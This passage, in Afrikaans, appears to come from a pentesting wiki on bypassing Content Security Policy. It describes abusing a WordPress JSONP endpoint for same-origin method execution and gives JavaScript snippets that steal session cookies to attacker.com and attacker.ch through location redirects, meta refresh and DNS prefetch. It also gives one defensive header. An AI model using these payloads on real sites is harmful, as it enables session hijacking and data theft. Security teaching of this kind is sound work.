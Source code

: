 {{#ref}}
../xss-cross-site-scripting/some-same-origin-method-execution.md
{{#endref}}

Boonop het **wordpress** 'n **JSONP** eindpunt in `/wp-json/wp/v2/users/1?_jsonp=data` wat die **data** wat in die uitvoer gestuur word, sal **reflekteer** (met die beperking van slegs letters, syfers en punte).

'n Aanvaller kan daardie eindpunt misbruik om **'n SOME-aanval** teen WordPress te **genereer** en dit binne `<script s`rc=`/wp-json/wp/v2/users/1?_jsonp=some_attack></script>` te **inkorporeer**, let daarop dat hierdie **script** sal **gelaai** word omdat dit **toegelaat word deur 'self'**. Boonop, en omdat WordPress geïnstalleer is, kan 'n aanvaller die **SOME-aanval** misbruik deur die **kwesbare** **callback** eindpunt wat die **CSP omseil** om meer voorregte aan 'n gebruiker te gee, 'n nuwe plugin te installeer...\
Vir meer inligting oor hoe om hierdie aanval uit te voer, kyk [https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/](https://octagon.net/blog/2022/05/29/bypass-csp-using-wordpress-by-abusing-same-origin-method-execution/)

## CSP Exfiltration Bypasses

As daar 'n streng CSP is wat jou nie toelaat om met **eksterne bedieners** te **interaksie** nie, is daar 'n paar dinge wat jy altyd kan doen om die inligting te ekstrapoleer.

### Location

Jy kan net die ligging opdateer om die geheime inligting na die aanvaller se bediener te stuur:
```javascript
var sessionid = document.cookie.split("=")[1] + "."
document.location = "https://attacker.com/?" + sessionid
```
### Meta-tag

Jy kan herlei deur 'n meta-tag in te voeg (dit is net 'n herleiding, dit sal nie inhoud lek nie)
```html
<meta http-equiv="refresh" content="1; http://attacker.com" />
```
### DNS Prefetch

Om bladsye vinniger te laai, gaan blaaiers hostnames vooraf oplos in IP adresse en dit vir later gebruik kas.\
Jy kan 'n blaier aanwys om 'n hostname vooraf op te los met: `<link rel="dns-prefetch" href="something.com">`

Jy kan hierdie gedrag misbruik om **sensitiewe inligting via DNS versoeke te exfiltreer**:
```javascript
var sessionid = document.cookie.split("=")[1] + "."
var body = document.getElementsByTagName("body")[0]
body.innerHTML =
body.innerHTML +
'<link rel="dns-prefetch" href="//' +
sessionid +
'attacker.ch">'
```
Nog 'n manier:
```javascript
const linkEl = document.createElement("link")
linkEl.rel = "prefetch"
linkEl.href = urlWithYourPreciousData
document.head.appendChild(linkEl)
```
Om te verhoed dat dit gebeur, kan die bediener die HTTP-kop stuur:
```
X-DNS-Prefetch-Control: off
```
> [!NOTE]
> Blykbaar werk hierdie tegniek nie in koplose blaaiers (bots) nie
